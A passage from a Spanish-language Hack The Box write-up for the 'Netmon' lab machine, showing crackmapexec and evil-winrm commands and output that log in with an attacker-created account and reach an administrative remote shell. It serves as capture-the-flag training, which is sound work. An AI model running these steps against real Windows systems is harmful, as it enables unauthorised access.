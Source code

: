 <img src="/assets/images/htb-writeup-netmon/Captura8.png">
</p>

Bien ahora para poder ver si ya estamos dentro de dicho grupo, vamos a usar la herramienta **crackmapexec**:
```bash
crackmapexec smb 10.10.10.152 -u 'BerserkP' -p 'B3rs3rkP123$!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\BerserkP:B3rs3rkP123$! (HackeadoPrro!)
```

<h2 id="Root">Accediendo a la Máquina como Administrador</h2>

Vemos que ya está nuestro usuario, ahora lo que sigue será conectarnos ya directamente, para esto usaremos la herramienta **evilWinrm**:
```bash
evil-winrm -i 10.10.10.152 -u 'BerserkP' -p 'B3rs3rkP123$!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\BerserkP\Documents> whoami
netmon\berserkp
```
Ya solo es cuestión de buscar la flag del root, que siempre está en el escritorio del usuario Administrator y listo.
